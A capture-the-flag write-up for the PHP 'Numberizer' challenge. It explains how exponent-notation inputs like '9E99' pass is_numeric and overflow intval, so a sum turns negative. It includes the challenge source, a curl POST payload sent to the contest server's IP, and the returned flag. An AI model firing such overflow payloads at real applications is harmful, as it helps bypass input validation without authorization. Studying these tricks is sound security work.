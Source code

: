 Simple PHP challenge

```php
<?php
for($i = 0; $i < $MAX_NUMS; $i++) {
    if(!isset($_POST['numbers'][$i]) || strlen($_POST['numbers'][$i])>4 || !is_numeric($_POST['numbers'][$i])) {
        continue;
    }
    $the_number = intval($_POST['numbers'][$i]);
    if($the_number < 0) {
        continue;
    }
    $numbers[] = $the_number;
}
$sum = intval(array_sum($numbers));
if($sum < 0) {
    echo "You win a flag: $FLAG";
} else {
    echo "You win nothing with number $sum ! :-(";
}
?>
```

In php, `is_numeric` detects the `E` within the string and considers it as exponent, for example `2E2` is`2*10^2` result in `200`

In this challenge, our goal is to make the sum of the 5 input number lower than 0

The `intval()` function in PHP can behave unexpectedly when the input exceeds the platform's maximum integer size, the result may be a negative number. 

```php
// On a 32-bit system
echo intval(2147483648);  // Output: -2147483648
```

When a number got input as `9E99`, it return `9223372036854775807`, with all 5 input as `9E99`, PHP process the sum as an negative number, and return the flag.

```
┌─[nguyenlong05@sw1mj3llyf1sh]
└─[$] <> curl -X POST "http://52.59.124.14:5004/" \
-H "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "numbers[]=9E99" \
--data-urlencode "numbers[]=9E99" \
--data-urlencode "numbers[]=9E99" \
--data-urlencode "numbers[]=9E99" \
--data-urlencode "numbers[]=9E99"           
You win a flag: ENO{INTVAL_IS_NOT_ALW4S_P0S1TiV3!}
<html>
	<head>
		<title>Numberizer</title>
	</head>
	<body>
		<h1>Numberizer</h1>
		<form action="/" method="post">
			<label for="numbers">Give me at most 10 numbers to sum!</label><br>
			<input type="text" name="numbers[]"><br><input type="text" name="numbers[]"><br><input type="text" name="numbers[]"><br><input type="text" name="numbers[]"><br><input type="text" name="numbers[]"><br>			<button type="submit">Submit</button>
		</form>
		<p>To view the source code, <a href="/?source">click here.</a>
	</body>
</html>
```